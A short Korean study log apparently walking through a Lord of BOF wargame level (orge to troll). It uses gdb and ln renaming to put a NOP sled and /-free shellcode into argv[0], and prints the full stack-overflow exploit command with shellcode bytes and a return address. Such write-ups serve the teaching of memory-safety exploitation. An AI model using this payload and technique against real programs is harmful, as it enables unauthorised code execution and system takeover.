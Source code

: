 #week2  
##lob  
###orge_to_troll  
troll.c를 보면 하아.... argv[2]도 이제 쓰지 마란다.  
이거 보면서 아 이래서 전에 argv[0] 쓰게 했구나 했다.  
이제 troll을 sroll로 cp해준 후 srll을 ln 명령어(이름을 하나 더 붙여준다)로 "A"*135로 만들어준다.  
저 이름으로 gdb를 돌려준 다음 disas main을 한다.  
strcpy 호출 후인 main+245에 브레이크를 걸어주고   
r $(python -c 'print("\xbf"*48)')을 돌려준다.  
이를 통해 argv[0] 주소를 획득한다.    
이제 "\x90"*100으로 100칸, /을 제외한 쉘 코드 35칸(argv[0]은 /을 경로로 파악가능하기에 /을 제외한 쉘 코드를 사용해준다고 함)으로 
ln 명령어를 통해 이름을 바꿔준다.  
이러고 나서 아래와 같은 명령어를 통해 bash를 볼 수 있었다.  
 ./$(python -c 'print("\x90"*100+"\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+" "+"\x90"*44+"\x75\xfb\xff\xbf")')
풀다풀다 안 되어서 다른 분의 writeup을 정독했더니 argv앞에 경로이름이 붙기에 35의 값을 붙여서 넣어라길래 말 잘 들었더니 bash를 볼 수 있었다.   

